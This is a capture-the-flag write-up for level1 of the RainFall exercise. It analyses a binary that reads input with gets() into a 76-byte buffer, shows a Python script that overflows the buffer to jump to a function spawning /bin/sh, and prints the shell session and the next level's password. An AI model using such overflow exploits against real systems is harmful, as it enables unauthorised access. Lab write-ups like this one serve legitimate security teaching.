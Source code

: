 ## Level1

In this level we have a binary `level1`. When we execute it, it wait for an input, then when we provide it, it print nothing 
```bash
level1@RainFall:~$ ./level1 
ssdf
level1@RainFall:~$ 
```

## Analysis

this is the main of the binary
```c
void main(void)

{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

As we can see theire is a variable `local_50`, and the function `gets()` is call with the variable `local_50` as input (without verification).

So i look for an other functions use by this binary and i see a function named `run`
```c
void run(void)

{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```
as we can see this function give us the access to a terminal

## Exploitation

Here we can exploat this weakness by overflow the the variable `local_50` then forced to run the `run` function.


To overflow the variable `local_50` we know that it wait for a string less than 76 charactor and make him call the `run` function.
thank to ghidra i know that the address of `run` is `08048444`

So i made a python script to overflow the `local_50`:
```python
import struct

my_var = b"A" * 76
my_var += struct.pack("<I", 0x08048444)
print(my_var)
```
then i use the print of script as input for my binary
```bash
level1@RainFall:~$ python /tmp/my_exploat.py | ./level1 
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$ 
```
As we can see our `run` is successfuly executed, but the `/bin/sh`
is immaedialtly shotdown after the end of the execution.
That mean we have to find a way to keep it open even after the execution.

That why i save the print of this script in a file
```bash
python /tmp/my_exploat.py > /tmp/my_exploat
```
Then i execute my binary with my file as input and the big point it that i use `cat -` to keep it open.
```bash
level1@RainFall:~$ cat /tmp/my_exploat - | ./level1 
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```


## Conclusion
So this level have a buffer overflow weakness because it don't check the size of `local_50` before to use it in `gets()`.

